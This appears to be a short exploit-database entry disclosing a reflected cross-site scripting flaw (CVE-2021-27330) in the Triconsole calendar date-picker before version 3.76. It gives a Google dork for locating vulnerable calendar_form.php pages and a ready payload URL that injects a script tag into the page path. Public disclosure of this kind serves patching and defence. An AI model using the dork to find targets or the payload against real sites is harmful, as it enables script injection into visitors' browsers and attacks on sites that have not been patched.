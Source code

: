     # Exploit Title: Triconsole 3.75 - Reflected XSS
    # Google Dork: inurl : /calendar/calendar_form.php
    # Date: 15/2/2021
    # Exploit Author: Akash Chathoth
    # Vendor Homepage: http://www.triconsole.com/
    # Software Link: http://www.triconsole.com/php/calendar_datepicker.php
    # Version: < 3.76 (14 February 2021)
    # Tested on: 3.75
    # CVE: 2021-27330

    # Exploit : http://exapmle.com/calendar_form.php/"><script>alert(document.domain)</script>